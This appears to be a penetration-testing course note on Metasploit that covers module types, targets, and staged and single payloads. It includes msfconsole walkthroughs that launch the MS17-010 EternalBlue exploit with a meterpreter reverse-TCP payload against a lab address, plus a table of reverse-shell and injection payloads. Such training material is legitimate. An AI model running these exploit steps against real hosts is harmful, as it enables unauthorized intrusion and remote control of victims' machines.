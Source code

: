 # Modules, targets

{% hint style="danger" %}
It is important to note that payloads and exploits HIGHLY depends on the target's environment, architecture. Etc since it is based on the return addresses of the functions and registers so at times we will be crafting our own.
{% endhint %}

### Modules

```bash
<No.> <type>/<os>/<service>/<name>
794   exploit/windows/ftp/scriptftp_list
```

* Type:
  * Auxiliary: Scanning, fuzzing...etc
  * Encoders: Encoding the payloads.
  * Exploits:
  * NOPs: No Operation Code, padding for the payload.
  * Payloads:
  * Plugins:
  * Post: Post exploitation; pivoting deeper...etc

### Navigating in msfconsole modules

```shell-session
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options
msf6 exploit(windows/smb/ms17_010_psexec) > info
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40 # Kepp it the same for all the next work.
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

## Targets

Simply the targets available for a specific selected exploit. Potentially victims.

```bash
msf6 > show targets
[-] No exploit module selected.
msf6 exploit(windows/smb/ms17_010_psexec) > show targets
msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6
```

## Payloads

The code that gets executed to exploit a certain vulnerability. The exists three types of payloads in metasploit:

* Singles: <mark style="color:purple;">windows/shell\_bind\_tcp</mark>, it contains the entire shellcode for the selected task, so they're more stable than the staged ones since they are AIO which makes them heavier than other types of payloads.
* Stagers: windows/shell/<mark style="color:purple;">bind\_tcp</mark>, These work alongside stages, they are waiting on the attacker's machine to establish a connection to the victim host once the stage completes its task on the target. Small in size.
  * Faces a huge issue when dealing with NX bits and DEP measures.
  * Stagers that are NX-aware are bigger in size.&#x20;
* Stages: windows/<mark style="color:purple;">shell</mark>/bind\_tcp, payload components that are loaded by the loader.

### Staged Payloads

As mentioned earlier, they're an exploitation process that is decomposed and modularized to help in the segmentation of the exploitation in action to be less detectable and picked by AV or IPS. If all the stages work with no issues, the attacker will gain his beloved remote access.

The <mark style="color:red;">**meterpreter payload**</mark> for example uses DLL injection in order to ensure a communication with the target. Once we successfully infect the target, we see a meterpreter interface that looks like the msfconsole except that the commands that we will be executing are aimed at the target.

### Searching, Selecting and using payloads

```

msf6 > select <exploit>

# Help of grep in identifying the desired payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads 
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...

# Setting the payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload <Number Of Payload>
...

# After setting a payload we'll have to setup the options
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig
...
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > set LHOST <our-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <target-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
...
meterpreter > help
...

```

| <mark style="color:yellow;">**Payload**</mark> | <mark style="color:yellow;">Description</mark>                         |
| ---------------------------------------------- | ---------------------------------------------------------------------- |
| `generic/custom`                               | Generic listener, multi-use                                            |
| `generic/shell_bind_tcp`                       | Generic listener, multi-use, normal shell, TCP connection binding      |
| `generic/shell_reverse_tcp`                    | Generic listener, multi-use, normal shell, reverse TCP connection      |
| `windows/x64/exec`                             | Executes an arbitrary command (Windows x64)                            |
| `windows/x64/loadlibrary`                      | Loads an arbitrary x64 library path                                    |
| `windows/x64/messagebox`                       | Spawns a dialog via MessageBox using a customizable title, text & icon |
| `windows/x64/shell_reverse_tcp`                | Normal shell, single payload, reverse TCP connection                   |
| `windows/x64/shell/reverse_tcp`                | Normal shell, stager + stage, reverse TCP connection                   |
| `windows/x64/shell/bind_ipv6_tcp`              | Normal shell, stager + stage, IPv6 Bind TCP stager                     |
| `windows/x64/meterpreter/$`                    | Meterpreter payload + varieties above                                  |
| `windows/x64/powershell/$`                     | Interactive PowerShell sessions + varieties above                      |
| `windows/x64/vncinject/$`                      | VNC Server (Reflective Injection) + varieties above                    |

> Other critical payloads that are heavily used by penetration testers during security assessments are Empire and Cobalt Strike payloads. These are not in the scope of this course, but feel free to research them in our free time as they can provide a significant amount of insight into how professional penetration testers perform their assessments on high-value targets.


